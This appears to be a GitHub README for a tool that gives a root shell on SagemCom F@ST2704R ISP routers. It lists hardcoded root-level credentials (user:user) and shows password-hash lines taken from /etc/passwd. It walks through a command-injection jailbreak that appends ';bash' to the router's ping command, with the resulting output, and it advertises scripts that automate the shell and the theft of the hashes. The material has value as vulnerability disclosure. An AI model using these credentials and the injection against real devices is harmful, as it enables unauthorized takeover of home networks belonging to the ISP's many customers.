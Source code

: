 # F@ST2704R has a root shell for everybody!

### What is it?

Basically, if you don't know the admin password of your **SagemCom F@st2704R** router, you can still get a root shell with the user account's hardcoded password.


### Included
`root.sh` is a simple shell script that provides the root shell

`getHashes.sh` uses the same login principle as **root.sh** but automatically downloads the remote /etc/passwd file in a local directory instead of letting the user interact with the shell. You can later crack the DES hashes with a password cracking tool.

`lsFileList.txt` is the complete list of files on the device.

### Usage

`$./root.sh [target=192.168.1.1]` to get a root shell

`$./getHashes.sh [target=192.168.1.1]` to save password hashes. John the Ripper will require sudo on a lot of distro

## Long story short

I went back to my parent's place for a few days. I had quite a surprise: they replaced the nice Cisco router I got them by a **Sagemcom F@ST2704R** . When I asked them why, they told me the local ISP gave **F@ST2704R** to all their clients in the area. Knowing that was quite a lot of clients I decided to take a look at the device.

### So... How is it?

This piece of hardware/software is crap.

Telnet and ssh is activated by default on the LAN. The admin password is a string of 4 lowercase letters. Wrong start mate. **Update: The ISP also gave all their clients the same WPS PIN**

I logged on telnet to discover that the provided shell was somewhat limited. Trying basic unix commands would lead to an error.

```
> ls
telnetd:error:774.006:processInput:406:unrecognized command ls
```

Let's see what we have

```
> help
?
help
logout
exit
quit
reboot
adsl
xdslctl
xtm
brctl
cat
loglevel
logdest
virtualserver
ddns
df
dumpcfg
dumpmdm
dm
meminfo
psp
kill
dumpsysinfo
dnsproxy
syslog
echo
ifconfig
ping
ps
pwd
sntp
sysinfo
tftp
wlctl
arp
defaultgateway
dhcpserver
dns
lan
lanhosts
passwd
ppp
restoredefault
route
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan
mcpctl
```


No ls, no cd... I would need more than that. Still, I got cat!
From there, I grab the `/etc/passwd` file. There were 2 users I found interesting.

```
support:5IkwiJv9RNzV.:0:0:Technical Support:/:/bin/sh
user:75bUXAuHldJ82:0:0:Normal User:/:/bin/sh
```

We can see their UID and GID is 0... who the hell gives admin privileges to a user account?????
Cracking the hashes with the tool john, we find the credentials are

```
support:support
user:user
```

The admin account had at least the decency of using a different password on every device instead of a hardcoded one...

Trying to log with the support account leads to a dead end, access is denied for some reason.
This is not the case with the "user" account. Typing help in the user prompt gives us a really short list of commands that can be used by the user account.

```
> help
?
help
logout
exit
quit
reboot
dnsproxy
ping
lanhosts
passwd
restoredefault
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan
```

### Let's explore the firmware for more info!

Unfortunately, the F@ST2704R firmware is not available to download, but [the F@ST2704 is](http://support.sagemcom.com/site/mo/broadband-access-9/sagemcom-f-st-2704-etisalat-1035/driver). It can't be THAT different eh?
wget this stuff, and binwalk the shit out of it!
Not so surprisingly, the binairies we want exist in the `/bin/` folder, the shell we're provided just can't get to it. We must break the jail.

### Breaking the jail

We have access to ping...

 ```
 > ping -c 1 127.0.0.1
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.866 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.866/0.866/0.866 ms
```

I wonder if... Let's try some semicolon magic!

```
> ls
telnetd:error:997.792:processInput:406:unrecognized command ls
 >
 >
 > ping -c 1 127.0.0.1;ls
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.948 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.948/0.948/0.948 ms
bin      etc      mnt      sbin     usr      webs-EN
data     lib      opt      sys      var      webs-FR
dev      linuxrc  proc     tmp      webs
```

Alright! this way I can get a real shell

```
 > ping -c 1 127.0.0.1;bash
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.459 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.459/0.459/0.459 ms


BusyBox v1.17.2 (2013-09-30 17:48:17 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

 Using the username `user` and the default password `user` followed by this ping/semicolon loophole gives us access to a shell with administrative rights more easiy than brute-forcing the admin's password (default 4 letters, can be changed for another one up to 16 letters).

 **Automated shell script included lucky bastard!**

 **Remember you still have to deal with squashfs read-only filesystem!**

 Honestly I didn't push my research really far. Maybe this has been documented before and maybe the firmware is available somewhere (I might dump it in a few days... or months). If this is the case, contact me.

 ~ Mixbo www.wakowakowako.com